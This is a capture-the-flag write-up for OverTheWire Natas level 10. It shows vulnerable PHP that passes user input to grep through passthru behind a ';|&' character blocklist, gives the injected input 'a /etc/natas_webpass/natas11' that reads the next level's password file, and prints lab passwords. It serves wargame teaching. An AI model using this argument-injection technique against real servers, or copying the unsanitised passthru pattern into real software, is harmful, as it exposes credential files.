


# Level 10

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas10.natas.labs.overthewire.org](http://natas10.natas.labs.overthewire.org)
- username: `natas10`
- password: `D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE`

## Solution



Let's review the sourcecode:

```php
...
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
...
```

We can see, that in compare with the previous challenge now we have list of illegal characters `/[;|&]/`. So we can just enter `a /etc/natas_webpass/natas11` and it will modify the command on the server to `grep -i a /etc/natas_webpass/natas11 dictionary.txt`, so it will look for occurences of letter `a` in `/etc/natas_webpass/natas11`:



## Password

`natas11`:`1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg`

*Created by [bu19akov](https://github.com/bu19akov)*